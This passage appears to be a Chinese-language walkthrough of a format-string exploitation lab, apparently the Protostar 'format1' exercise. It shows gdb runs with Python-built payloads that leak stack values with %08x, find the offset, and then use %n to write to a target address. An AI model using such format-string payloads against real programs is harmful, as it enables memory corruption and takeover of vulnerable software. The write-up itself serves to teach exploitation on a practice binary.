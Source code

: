 ```shell
(gdb) r $(python -c 'print "DDDD" + "%08x."*131 + "[%08x]"') # 调试，直到[]里的值为44444444
```

<img src=".\format1-analysis-13.png" style="zoom:67%;" />

```shell
、(gdb) r $(python -c 'print "DDDD" + "AAAAA" + "%08x."*131 + "[%08x]"') # []里的值为44444444
```

<img src=".\format1-analysis-14.png" style="zoom:67%;" />

现在*somewhere恰好与要填入target地址的位置重合，我们把“DDDD”改为target的地址，将最后的%08x改为%08n进行写入。

```shell
(gdb) r $(python -c 'print "\x38\x96\x04\x08" + "AAAAA" + "%08x."*131 + "[%08n]"')
```

